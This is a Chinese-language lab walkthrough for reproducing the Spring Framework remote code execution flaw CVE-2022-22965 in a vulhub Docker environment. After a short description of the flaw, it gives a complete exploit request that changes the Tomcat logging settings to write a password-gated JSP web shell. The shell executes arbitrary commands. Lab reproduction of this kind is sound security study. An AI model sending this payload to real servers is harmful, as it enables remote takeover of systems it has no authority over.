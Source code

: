 ![img](assets/1669920461843-ddc46a51-26cd-4aff-80e6-cc73da74476b.png)

参考笔记：

1. https://github.com/vulhub/vulhub/blob/master/spring/CVE-2022-22947/README.zh-cn.md

## Spring JDK9+数据绑定远程命令执行

```
通过JDK 9+上的数据绑定实现Spring Framework RCE（CVE-2022-22965）
```

漏洞介绍

 Spring framework 是Spring 里面的一个基础开源框架，其目的是用于简化 Java 企业级应用的开发难度和开发周期,2022年3月31日，VMware Tanzu发布漏洞报告，Spring Framework存在远程代码执行漏洞， 在JDK 9+上运行的Spring MVC或Spring WebFlux应用程序可能容易通过数据绑定执行远程代码（RCE）。

特定漏洞需要应用程序作为WAR部署在Tomcat上运行。如果应用程序部署为Spring Boot可执行jar（即默认配置），则不会受到攻击。然而，该漏洞的性质更为普遍，可能还有其他方法可以利用它。



漏洞环境搭建

Ubantu、docker、vulhub

```
spring-webmvc:5.3.17
```

执行以下命令以启动使用Spring WebMVC 5.3.17的服务器：

```python
cd /vulhub/spring/CVE-2022-22965

docker-compose up -d
```

服务器启动后，浏览`http://your-ip:8080/?name=Bob&age=25`以查看示例页面。



漏洞复现

1. 发送以下请求以更改Apache Tomcat中的日志记录配置，并将日志作为JSP文件写入：

```plain
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat= HTTP/1.1
Host: 192.168.1.10:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
```